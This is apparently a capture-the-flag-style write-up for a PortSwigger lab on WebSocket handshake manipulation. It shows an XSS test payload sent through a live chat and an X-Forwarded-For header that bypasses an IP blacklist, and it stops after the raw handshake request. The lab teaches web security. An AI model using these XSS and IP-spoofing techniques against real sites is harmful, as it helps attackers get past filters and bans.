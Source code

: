 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6e817eca-e648-4084-93ac-f12138a74ac1)

## Overview :

## Solution :

Clickin on *Live chat*, we are taken to a page where we are able to chat with another user.

When we send a XSS payload in the chat, the chat is **disconnected.**

```js
<img src=1 onerror='alert(1)'>
```
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a9c985d5-9ebc-48b3-b7cb-a8729760cf4e)

In the **WebSockets History** tab, we can see the requests & responses from both th client and server side.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5be6f0e8-6944-48f2-bba4-41d2016e6828)

In one of the request to the server, the following XSS data is sent in JSON format.

```
{"message":"&lt;img src=1 onerror=&#39;alert(1)&#39;&gt;"}
```

Since it is flagged as malicious message , the attack has been blocked & the connection is disconnected. 

Now we can't send any message since our **IP is blocked.**

### Reconnect to a disconnected socket -

Send the request to Repeater tab.

If we try to reconnect by using the **Reconnect** button, the response says that **our IP address is blacklisted**
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fdfd943b-070b-43ea-9bc7-b72c7e5781c9)

Click on the **Pencil icon** on the top to **Select a websocket.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1f472562-4299-4879-aa37-940252146802)

Add `X-Forwarded-For: 1.1.1.1` in the connection request.
   
```http
GET /chat HTTP/1.1
Host: 0a19004c03e7aff780e8051000b70091.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
X-Forwarded-For:1.1.1.1
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 13
Origin: https://0a19004c03e7aff780e8051000b70091.web-security-academy.net
Sec-WebSocket-Key: A8icuxTILQ+zv9El+okv9g==
Connection: keep-alive, Upgrade
Cookie: session=uuhm54U4DRhGLcbXMXAuUYwkvqNwpYFB
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

